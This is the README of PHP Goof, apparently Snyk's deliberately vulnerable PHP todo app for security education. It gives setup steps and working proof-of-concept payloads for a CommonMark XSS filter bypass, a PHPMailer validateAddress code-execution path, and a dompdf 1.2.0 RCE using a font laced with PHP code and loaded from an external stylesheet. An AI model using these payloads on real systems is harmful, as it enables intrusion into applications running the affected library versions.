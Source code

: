 # PHP Goof - Snyk's vulnerable demo php app

A vulnerable PHP demo todo application that is for demonstration and education purposes only, i take no responsibility for this being used with malicious intent nor should this be used for malicious intent (or be run in any product environment).

![PHP Goof](/images/screenshot.png)

## Requisites & Running 

- PHP 7.1+
- Mysql or MariaDB 
- Composer 2

Run composer install from the project root directory

Create mysql or mariaDB database and update the db.php file, with database details. 

Import sql/database.sql file into the newly created database or run the following table create.

```
CREATE TABLE `task` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `title` varchar(255) NOT NULL,
  `created_at` timestamp NOT NULL DEFAULT current_timestamp(),
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=76 DEFAULT CHARSET=utf8mb3;
```

Finally, Using the PHP built in server run the code from the root app directory

```
php -S localhost:8000
```

## Exploiting the vulnerabilities

### Commonmark XSS Vulnerability

[SNYK-PHP-LEAGUECOMMONMARK-174004](https://security.snyk.io/vuln/SNYK-PHP-LEAGUECOMMONMARK-174004)

```
* Markdown link
This is **markdown**

* Markdown link
[Snyk](https://snyk.io/)

* Failed XSS
[Gotcha](javascript:alert(1))

* Failed XSS despite URL encoding
[Gotcha](javascript&#58;alert(1&#41;)

* Successfull XSS using vuln and browser interpretation 
[Gotcha](javascript&amp;colon;alert%28&#039;Gotcha&#039;%29)
```

### PHPMailer 

[SNYK-PHP-PHPMAILERPHPMAILER-1311001](https://security.snyk.io/vuln/SNYK-PHP-PHPMAILERPHPMAILER-1311001)

Uses the `validateAddress()` exploit from PHPMailer 6.4.1 to execute the global `PHP()` function by default. If no argument is passed into the `validateAddress()` function, which isnt in this demo, PHPMailer sets "PHP" as the default value and runs it if its available in the scope. 

To run click the email icon next to a line entry to send an email reminder. 

Note: No emails will actually send or are being stored, only validating the email address entered into the input using the PHPMailer library. 


### dompdf 1.2.0 remote code execution 

This vulnerability is using dompdf library version 1.2.0 and allows for remote code execution on the target application. In this app there is a custom font called gotcha-normal.otf which has `<?php phpinfo(); ?>` loaded into the copyright font meta. 

The font file is then referenced as a `font-family` in the CSS file `gotcha.css` which is then injected into the dompdf html output via a stylesheet link. 

Dompdf loads the style sheet and saves the custom font type to the dompdf font cache (and as part of the framework). This can then be remotely executed. 

*** Note: in the CSS font-family, the font name needs to match the actual font name or this will not work. 

To use this in this app, load the below code into a todo item and click pdf on its line entry

```
<link rel=stylesheet href='https://raw.githubusercontent.com/snyk-labs/php-goof/main/exploits/gotcha.css'>
```
